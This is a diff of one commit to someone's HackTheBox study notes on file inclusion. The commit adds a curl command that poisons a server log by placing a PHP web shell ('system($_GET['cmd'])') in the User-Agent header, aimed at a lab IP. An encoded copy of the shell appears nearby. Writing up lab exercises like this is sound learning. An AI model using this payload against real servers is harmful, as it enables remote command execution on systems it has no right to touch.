

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/FileInclusion/FileInclusion.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
File inclusion complete

```diff
--- a/Modules/FileInclusion/FileInclusion.md
+++ b/Modules/FileInclusion/FileInclusion.md
@@ -1023,4 +1023,7 @@ So I tried:
 Lets try:
 `%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
 
-That didn't work
+That didn't work. However trying again but modifying the user agent does:
+`curl 'http://83.136.255.43:36946/ilf_admin/index.php?log=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E' -A '<?php system($_GET['cmd']); ?>'`
+
+Now all I need to do is get the flag.
```
